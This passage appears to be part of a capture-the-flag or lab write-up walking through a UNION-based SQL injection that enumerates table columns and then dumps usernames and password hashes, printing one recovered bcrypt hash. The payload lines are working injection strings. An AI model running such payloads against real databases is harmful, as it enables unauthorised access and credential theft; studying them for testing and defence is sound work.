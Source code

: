 
Hmm items.

```SQL
14 UNION SELECT 1,column_name,3,4 FROM information_schema.columns WHERE table_name='users';-- -`
```

I gave a shot with the table users and it resulted with a column name id.

Now we can do this.
```SQL
14 UNION SELECT username,password,password,4 FROM users;-- -

```

And got the username and password hash.
![](Pasted%20image%2020250318165530.png)

```SQL
username:system
password_hash:$2b$10$83pRYaR/d4ZWJVEex.lxu.Xs1a/TNDBWIUmB4z.R0DT0MSGIGzsgW
```

We can also use concat to get better results cause this hash mightn't be full.
```SQL
14 UNION SELECT 1,GROUP_CONCAT(username, ':', password SEPARATOR ' | '),3,4 FROM users;-- -

```

And we got the better result.
![](Pasted%20image%2020250318170006.png)
